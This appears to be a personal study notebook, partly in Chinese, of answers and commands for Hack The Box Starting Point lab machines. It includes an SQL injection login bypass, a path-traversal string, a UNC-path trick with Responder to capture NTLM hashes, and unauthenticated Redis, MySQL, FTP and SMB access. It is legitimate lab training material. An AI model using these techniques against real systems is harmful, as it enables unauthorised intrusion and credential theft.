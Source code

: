 [Tier0](https://github.com/johnie123456789/Hack_The_Box_note/blob/main/Start_point.md#tier0)

[Tier1](https://github.com/johnie123456789/Hack_The_Box_note/blob/main/Start_point.md#tier1)

[Tier2](https://github.com/johnie123456789/Hack_The_Box_note/blob/main/Start_point.md#tier2)

# Tier0
## Meow

+  連VPN(用Kali OR Parrot)
   ```
   sudo openvpn + XXX.ovpn
   ```
+  開機
1. Virtual Machine
2. terminal
3. openvpn
4. tun
5. ping
   ```
   ping IP
   ```
6. nmap
   ```
   nmap -sV IP 
   ```
7. telnet
   ```
   telnet IP
   ```
8. root
9. cat
   ```
   cat flag.txt
   ```

## Fawn
1. File Transfer Protocol
2. 21
3. SFTP
4. ping
5. nmap (Thanks)
   ```
   nmap -sV IP 
   ```
6. nmap
   ```
   nmap -sV IP 
   ```
7. ftp -h
8. anonymous
9.  230
10. ls
11. get
12. 退出並cat flag
   ```
   close
   exit
   cat flag.txt
   ```

## Dancing
1. Server Message Block
2. 445
3. microsoft-ds
4. -L
5. smbclient -L IP
6. WorkShares
7. get
8. ```smbclient \\\\IP\\WorkShares```
   多逛逛，多get，就會有flag了

## Redeemer
1. 6379
   ```
   nmap -sV  -p- 10.129.18.32 -min-rate 5000

   ```
2. redis
3. In-memory Database
4. redis-cli
5. -h
6. 連線
   ```
   redis-cli -h 10.129.18.32
   ```
7. info
8. select
9. 4
10. keys *
11. get flag
# Tier1
## Appointment
1. Structured Query Language
2. SQL injection
3. Personally identifiable information
4. A03:2021-injection
5. nmap
   (Apache httpd 2.4.38 ((Debian)))
6. 443
7. directory
8. 404
9. dir
10. \#
11. sql injection
12. sql injection
    
    打開瀏覽器用IP連線
    在user輸入payload
    payload:
    ```
    admin' #
    ```
    flag和第11題答案就會出現了

## Sequel
1. nmap
2. nmap -sC -T4
3. -u
4. root
5. * 
6. ;
7. 連線
   ```
   mysql -h IP -u root
   SHOW DATABASES;
   ```
   Ansewer:htb
8. payload
   ```
   USE htb
   SELECT * FROM config;
   ```
## Crocodile
1. -sC
2. nmap -sV -sC IP
3. 230
4. anonymous
5. get
6. admin
7. Apache httpd 2.4.41
8. -x
   ```
   gobuster dir --url 網址 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php.html
   ```
9. login.php
10. 登入
    ![](asserts/picture1.png)

## Responder
1. unika.htb
2. php
3. 連線
   linux:
      ```
      echo "ip unika.htb" |sudo tee -a /etc/hosts
      ```
   Answer:page
4. ../../../../../../../../windows/system32/drivers/etc/hosts
5. //10.10.14.6/somefile
6. New Technology LAN Manager
7. -I
   ```
   sudo responder -I tun0
   ```
8. John the Ripper
9.  badminton
10. netstat -aon
11. ```type C:\Users\mike\Desktop\flag.txt ```

## Three
1. nmap -sT -sV -sC
2. thetoppers.htb
3. /etxc/hosts
4. s3.thetoppers.htb
5. 

# Tier2
